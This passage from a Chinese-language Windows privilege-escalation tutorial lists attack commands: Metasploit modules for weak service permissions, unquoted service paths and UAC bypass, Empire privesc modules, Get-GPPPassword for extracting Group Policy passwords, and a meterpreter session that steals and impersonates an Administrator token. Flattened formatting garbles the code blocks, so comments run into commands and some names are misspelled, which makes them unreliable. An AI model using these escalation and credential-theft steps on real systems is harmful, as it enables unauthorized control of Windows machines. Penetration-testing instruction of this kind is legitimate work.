 ```
#需要提前获取一个sessionexploit/windows/local/service\_permissions
```

4.3.2 可信任服务路径漏洞

如果一个服务的可执行文件的路径没有被双引号引起来且包含空格，那么这个服务就是有漏洞的

MSF 使用实战：

```
#寻找存在漏洞的服务wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /i /v "C:\\Windows\\\\" | findstr /i /v """exploit/windows/local/trusted\_service\_path#正常接收到会话后，不久就会自动断开连接，需要开启命令自动迁移进程set AutoRunScript migrate -f
```

4.3.3 计划任务

如果攻击者对以高权限运行的任务所在的目录具有写权限，就可以使用恶意程序覆盖原来的程序，这样在下次计划执行时，就会以高权限来运行恶意程序。

```
#查看计算机的计划任务schtasks /query /fo LIST /v
```

4.3.4 Empire 内置模块

```
usemodule privesc/powerup/allchecksexecute
```

### 4.4 组策略首选项提权

组策略首选项 (Group Policy Preferences,GPP)

谢公子的博客有很清楚的说明：Windows 组策略首选项提权

```
#Powershell获取cpasswordGet-GPPPassword.ps1#Msfpost/windows/gather/credentials/gpp#Empireusemodule privesc/gpp
```

### 4.5 绕过 UAC 提权

之前 backlion 师傅有一篇博文，主要写的就是这个：使用 Metasploit 绕过 UAC 的多种方法

所以在这里就只把一些常用的命令筛选出来

```
#Msfexploit/windows/local/bypassuacgetsysem#避免发现,内存注入,不产生文件exploit/windows/local/bypassuac\_injection
```

```
#PowershellInvoke-PsUACme#Empireusemodule privesc/bypassuacusemodule privesc/bypassuac\_wscript
```

### 4.6 令牌窃取

4.6.1 实战举例

```
#已经获取到一个session#方法一meterpreter > use incognito......meterpreter > list\_tokens -u......WIN-2HU3N1\\Administrator......meterpreter > impersonate\_token WIN-2HU3N1\\\\Administrator  #注意：这里是两个反斜杠\\\\......Successfully......meterpreter > shellC:\\User\\Administrator>whoamiWIN-2HU3N1\\Administrator
```
